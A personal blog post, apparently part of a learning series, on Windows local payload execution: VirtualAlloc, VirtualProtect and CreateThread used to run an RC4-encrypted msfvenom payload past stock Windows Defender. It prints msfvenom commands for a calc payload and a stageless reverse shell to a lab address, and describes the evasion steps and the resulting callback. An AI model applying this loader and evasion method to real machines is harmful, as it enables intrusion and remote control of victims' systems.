






+++
title = "malware development studies (pt. 2)"
date = "2026-05-26T00:00:00-05:00"
author = "alex mcculley"
cover = ""
coverCaption = ""
tags = ["malware-development", "windows", "offensive-security"]
keywords = ["malware development", "windows", "win32api", "virtualalloc", "virtualprotect", "createthread", "rc4", "shellcode", "msfvenom", "defender evasion"]
description = "local payload execution against stock Windows Defender"
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
Toc = true
aiDisclaimer = true
+++

In my last post on [malware development studies](/posts/malware-development-studies-pt-1/) I mentioned local payload execution. That'll be the focus of this article. I'll walk through the win32api calls, how I used them, encryption and obfuscation of my payload, and testing it all on a Windows machine with stock defender.

## local payload execution win32api calls (the boys)

### virtual alloc

```c
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

`VirtualAlloc` helps to manage memory allocation (hence the alloc), and returns an `LPVOID` (Long Void Pointer) to the base address of the allocated region of memory pages. We'll use this to dictate the size of memory space we need to allocate for our payload.

### virtual protect

```c
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

`VirtualProtect` handles the permissions of the memory space that we allocated using `VirtualAlloc`. It's generally a good idea to initialize the memory with read/write, then flip that to execute. Giving full read/write/execute permissions off the bat is a very noisy thing to do. With that being said, I do this very thing in this post. In the beginning phases it's acceptable and if it bypasses defender then all the better. In an actual engagement with better endpoint protections - don't do this.

### create thread

```c
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```

`CreateThread` will... wait for it... create a thread for our payload to run in.

## payload generation/obfuscating

I'll be working with a simple test `calc` payload generated by `msfvenom` and then encrypted with `rc4`.

### msfvenom payload generation

`msfvenom -p windows/x64/exec CMD="calc.exe" -f c`

The command above generates a C byte array for the payload. I won't go into detail about how to obfuscate and/or encrypt. Just understand that I encrypted the payload via RC4. Meaning that I will also have to *decrypt* before execution. That time between decryption and execution is crucial. Even if this calc payload slips past memory scanning, a longer-lasting payload likely won't — it sits decrypted in memory long enough to overlap with a scan window, and it gives the broader EDR stack more behavior to correlate against.

### msfvenom rev shell payload

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.1.10.11 LPORT=8080 -f raw -o stageless.bin`

This command is a stageless reverse shell. I tried a staged payload for meterpreter and got burned that way. While the size of the payload grew by a couple hundred bytes, this was actually successful at bypassing defender as well. The malware worked exactly as it did before - decrypting the payload, allocating memory with execute permissions and then creating a thread. But this time we got a callback to a reverse shell listener with metasploit.

To test this particular payload, I did have to setup a port forward from the Windows host to WSL and I had to be careful to generate the payload with the windows IP and ensure that the port forward was setup properly.

## the flow - msfvenom calc payload

With the encrypted calc payload generated and deployed to the victim machine, we can inspect the memory at each step of the execution. Below we can see the decrypted payload in memory:



With the payload decrypted, we still need to copy the payload into a section of memory that has execute permissions. Once that's been done, it's good practice to clean up the original copy of the payload to have less of a detection surface. In my source code I used `memset(pDecryptedPayload, '\0', sDecryptedPayload);` to write 0s at the DecryptedPayload's address with the size of the DecryptedPayload.



With executable permissions we can observe the calc.exe payload run. All of this was done without a single detection or alert from Windows Defender. By encrypting our payload we evaded static detection and our method of decrypting the payload, allocating memory in a `RW` space and flipping permissions to `RWX` in that same space was good enough to get around Defender (note this method will not always work - see `VirtualProtect` section above). We bypassed the 'normal' execution flow and performed actions in an unintended way.



## the flow - msfvenom rev shell

I used the same basic method as above but with a stageless reverse shell instead of a calc payload. To my surprise it worked!

Below is a view of the decrypted payload sitting in memory ready to execute.



And this is the resulting callback from the victim.



## post execution/conclusion

Interestingly enough once I exited out of the rev shell on the metasploit side it decided my program was malicious:



Better late than never I suppose. I could also continue to copy the same executable over and over and re-execute without triggering an alert. And to add to the mystery if I `ctrl + c` out of the running malware terminal I never got flagged. Only an `exit` (graceful or ungraceful) from metasploit would get the program flagged and nuked into orbit. Initially my theory was that there's something in the network connection closing with Metasploit that Defender is flagging on. But after figuring out that ungraceful exits from Metasploit also cause the alert to fire, I'm leaning more toward the way that the process closes on the victim side. If I wanted to dig further into the network connection and graceful closing I would use something like wireshark to get a better idea of what's being sent by the attacking machine to the victim on graceful close. Next post I'll be digging into process injection - a useful technique to move between various processes on an endpoint for evasion or gathering additional information.
